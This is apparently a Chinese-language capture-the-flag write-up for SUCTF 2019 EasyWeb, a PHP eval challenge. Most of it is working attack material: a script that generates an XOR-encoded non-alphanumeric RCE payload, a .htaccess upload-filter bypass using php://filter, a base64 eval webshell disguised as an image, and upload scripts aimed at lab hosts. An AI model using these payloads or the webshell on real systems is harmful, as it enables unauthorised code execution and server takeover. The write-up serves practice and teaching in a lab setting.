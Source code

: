 # [SUCTF 2019]EasyWeb

## 知识点

`php代码审计`

`无字符RCE`

`.htaccess文件利用`

## 解题

题目直接给出了源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

很显然需要通过`无字符RCE`去调用上面的`get_the_flag`函数（长度限制导致也用不了其他的）。看到这个长度限制，可以考虑构造`$_GET[]();`的格式来调用，此处`[]`被过滤可以采用`{}`来替代也是一样的。

这里直接采用脚本生成`payload`，[参考文章](https://syunaht.com/p/745812677.html)

```python
import re
# Python中正则不需要在首位加//
preg = '[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+'
payload = "_GET"
istr = ''
jstr = ''
for char in payload:
    check = 0
    for i in range(128, 256):  #“Use of undefined constant” 视ascii码大于0x7f的字符为字符串，7.2后提出要废弃
        for j in range(128, 256):
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                if(i ^ j == ord(char)):
                    i = '%{:0>2}'.format(hex(i)[2:])
                    j = '%{:0>2}'.format(hex(j)[2:])
                    istr += i
                    jstr += j
                    check = 1
                    break
        if check == 1:
            break
# php经典特性，没加引号则视为字符串，所以可以不加引号减少字符数
# abc^def等价于(a^d).(b^e).(c^f),前者可以大幅减少字符数
print('${%s^%s}' % (istr, jstr))
```

```
?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=phpinfo
```

![](./img/[SUCTF 2019]EasyWeb-1.png)

接下来就可以考虑`get_the_flag`函数的内容了，该函数主要是写入文件，但是有限制，既文件名不能包含`ph`文件内容也不能包含`<?`，这里可以采用`.htaccess`（`phpinfo`页面可以看出这是`apache`服务器），通过其`php_value auto_append_file`指定文件被`PHP`包含，通过`AddType application/x-httpd-php`指定文件被解析，此外这条配置是兼容`php`伪协议的，所以我们可以采用`php://filter`伪协议进行`base64`编码处理，这样就能绕过对`<?`的检测了。

> 至于`exif_imagetype`对问价内容检测可以通过添加文件头幻术来绕过，`.htaccess`中#作为注释，所以可以采用`XBM`文件的，而上传的`PHP`代码文件可以添加更为方便的`GIF`文件的。
>
> 因为有`exif_imagetype`进行文件头检测，一般是加`GIF89a`进行绕过，但在这里会导致`.htaccess`文件无法正常生效，所以在`.htaccess`文件中加上

`.htaccess`文件内容：

```
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg
```

`poc.jpg`文件内容（因为`base64`按`4`位一解码故文件幻数头补上2位）：

```undefined
GIF89aaa
PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

上传脚本`php`

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<!--题目链接-->
<form action="http://8d22cfbb-0ec0-42f4-b27f-de6d04423133.node4.buuoj.cn:81/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="file" id="postedFile"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传脚本`python`

```python
import requests
import time

url = r"http://0d14487e-ac86-4a60-811d-d64ddb5f5a9b.node5.buuoj.cn:81/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag"
session = requests.session()
htaccess_content = '''
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg'''
files_htaccess = {'file': (
    '.htaccess', htaccess_content, 'image/jpeg')}
res_hta = session.post(url, files=files_htaccess)
print(res_hta.text)
shell_file = 'GIF89aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+'
files_shell = {'file': (
    'poc.jpg', shell_file, 'image/jpeg')}
res_jpg = session.post(url, files=files_shell)

print(res_jpg.text)
```

![](./img/[SUCTF 2019]EasyWeb-2.png)

`wp`说是要绕过`disable_functions`，但是`antsword`直接连接就能读取到`flag`

![](./img/[SUCTF 2019]EasyWeb-3.png)

[参考文章1](https://www.cnblogs.com/Article-kelp/p/16097100.html)

[参考文章2](https://syunaht.com/p/745812677.html)